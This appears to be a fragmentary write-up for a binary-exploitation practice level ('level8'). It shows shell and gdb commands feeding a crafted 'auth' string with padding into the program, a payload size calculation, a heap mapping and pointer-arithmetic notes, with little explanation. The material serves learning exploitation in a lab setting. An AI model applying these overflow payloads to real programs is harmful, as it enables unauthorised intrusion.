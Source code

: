 (python -c 'print ("auth " + "\x01")'; cat) | ./level8


```bash
(gdb) run < <(python -c 'print ("auth " + "\x01")')
```




### Payload

128 max


"auth "	+ "AAAAAAAAAAAAAAAAAAAAAAAAAAAAA"	+
5		+					30				+
`auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAA`




char *auth = A * 30

```console
	 0x804a000  0x806b000    0x21000        0x0 [heap]
```


char	*ptr
*(ptr + 8 x 1) == ptr[8]

int		*ptr
*(ptr + 8 x 4) == ptr[8]

10000 == 10008
